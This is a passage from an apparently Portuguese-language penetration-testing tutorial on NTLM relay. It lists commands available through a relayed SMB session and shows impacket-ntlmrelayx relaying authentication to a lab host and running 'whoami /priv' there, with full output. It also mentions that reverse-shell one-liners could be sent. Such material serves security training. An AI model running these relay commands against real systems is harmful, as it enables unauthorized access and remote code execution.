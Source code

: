 ```terminal
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

É possivel ainda enviar commandos, o exemplo abaixo mostra o _output_ mas na prática até nos possivel enviar _oneliners_ para criação de uma _reverse shell_.

```terminal

└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -c "whoami /priv"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.0.102

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
```